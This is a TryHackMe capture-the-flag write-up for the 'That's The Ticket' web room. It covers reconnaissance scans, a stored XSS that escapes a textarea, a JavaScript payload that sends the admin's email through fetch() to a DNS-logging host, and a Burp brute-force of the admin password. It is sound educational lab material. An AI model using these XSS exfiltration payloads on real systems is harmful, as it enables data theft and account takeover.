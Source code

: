```yaml
---
title: "That's The Ticket - THM"
date: "2021-06-09"
categories:
  - "ctf"
  - "infosec"
  - "writeup"
tags:
  - "ctf"
  - "cybersecurity"
  - "tryhackme"
  - "web"
---
```


Hello Hackers! Welcome back to another Write-up. so this time we are doing That's The Ticket from try hack me, so this is a medium level challenge and it's based on the web, okay so without further do let's get started with hacking.

[https://tryhackme.com/room/thatstheticket](https://tryhackme.com/room/thatstheticket)

you can check out the video version of this write-up from the below

<yt-video id="YL_aFu4hWcQ"> </yt-video>

so as always even tho this is a web challenge I started with some Nmap scan to get some idea about what's going with this box but from the Nmap scan I didn't found anything interesting I found out that the port 80 and 22 are open that's all

![](/images/carbon7.png)

since this contain a website i though of doing some nikto scan to get more idea about the website

```bash
nikto -h http://10.10.128.236/
```

![](/images/carbon8.png)

so as you can see we didn't found anything interesting from the Nikto scan too whats next? let's check the website

![](/images/screely-1623259434771-1024x539.png)

so when we go to the website we can see there's a login screen , so first i tried some default creds but no luck so next I created the account and now we can see that we have a dashboard.

![](/images/screely-1623259642418-1024x547.png)

so as you can see here we can create tickets, so if you try some XSS payload it won't work here, you have to be a bit creative in this case so if you view the source code you can see that messages we are adding are inside a "textarea" this is the reason why out payload is not working since the things inside of textarea are just treated as texts so what we can do is we can close that tag and add xss so it should get triggered let's see

in the below you can see i have shown a simple payload that we can use to trigger xss here

![](/images/carbon9.png)

```html
</textarea> <script> alert("hello"); </script>
```

so if we run this we can see the XSS will get triggered and now we successfully triggered XSS, but how can we get the user? this is a very interesting part of this challenge. so if we look at the hint it says,

> Our HTTP & DNS Logging tool on [http://10.10.10.100](http://10.10.10.100) may come in useful!
>
> Hint

we can create a Request Catcher session for this box also you can do this in other ways but I think using the request catcher will be a lot helpful for you, okay so first if we tried to change the document.location we can see we can get our details but not the admins, but if you look at the DNS lookup that comes one is from admin!

awsome! we are close but how can we exploit it? yes so for that I wrote a simple javascript code to send the email as a subdomain when that happens we can see that from the DNS. but there is a small problem, that's since the email has characters like "@" our payload won't work it will break so we have a lot of options, we can encode the URL and take or else we can replace characters or get a character by character but here I thought of going for the replace characters way since I think its the fastest and easiest so you can see the payload I used below

![](/images/carbon10.png)

```html
</textarea>
<script>
var email = document.getElementById('email').innerHTML
var emailreplaced1 = email.replace('@','X')
var emailreplaced2 = emailreplaced1.replace('.','Y')
fetch('http://'+emailreplaced2+'.f6dd97cbbca6b33d8f7e673cd79a74e7.log.tryhackme.tech')
</script>
```

also below i have a video of getting the email.

congrats if you got the email you have done a good job so far, so forgetting the password we have to do a simple brute-force for this I thought of using burp-suite since I'm more comfortable with it also you can use hydra or any other tool if you are not familiar with brute-forcing with burp suite please go to the link below where you can find a good walkthrough from [portswigger](https://portswigger.net/support/using-burp-to-brute-force-a-login-page)

[https://portswigger.net/support/using-burp-to-brute-force-a-login-page](https://portswigger.net/support/using-burp-to-brute-force-a-login-page)

![](/images/screely-1623261486119.png)

so as you can see here we get a **302** redirect for the password **123123** yes so now we successfully found the password for the admin

```bash
adminaccount@itsupport.thm
123123
```

now all we have to do is login as the admin to get our flag

![](/images/screely-1623261676933-1024x652.png)

so just like above if you open the **1st message** we can see that we successfully got the flag for the challenge!!! congrats if you completed it. I hope you enjoyed the write-up and learned something new! so for the next time stay safe and **Keep On Hacking !!!**
